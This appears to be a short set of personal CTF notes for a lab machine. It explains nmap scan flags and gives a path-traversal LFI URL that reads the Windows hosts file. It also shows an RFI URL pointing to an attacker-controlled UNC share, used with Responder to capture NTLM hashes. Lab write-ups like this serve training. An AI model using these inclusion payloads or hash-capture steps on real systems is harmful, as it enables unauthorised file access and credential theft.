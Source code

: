 # CTF-Excalibur
CTF-Memo

-v : Increase the verbosity level (basically output more info)
-p- : This flag scans for all TCP ports ranging from 0-65535
-sV : Attempts to determine the version of the service running on a port
-sC : Scan with default NSE scripts
--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher

-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default. Some of the scripts in this category are considered intrusive and
should not be run against a target network without permission.
-sV: Enables version detection, which will detect what versions are running on what
port.

```
nmap -v -p- --min-rate 5000 -sV -sC 1.1.1.1
nmap -sV -sC 1.1.1.1

nmap -p80,5040,5985,7680 1.1.1.1
nmap -p- -sV -sC 1.1.1.1

curl -v http://1.1.1.1
return 302 not found
```

------------



gobuster

------------
LFI or Local File Inclusion
RFI or Remote File Inclusion

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

examples
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

Include PHP : 
https://www.php.net/manual/en/function.include.php


Windows New Technology LAN Manager
 
sudo responder -I tun0
http://unika.htb/index.php?page=//10.10.14.3/somefile





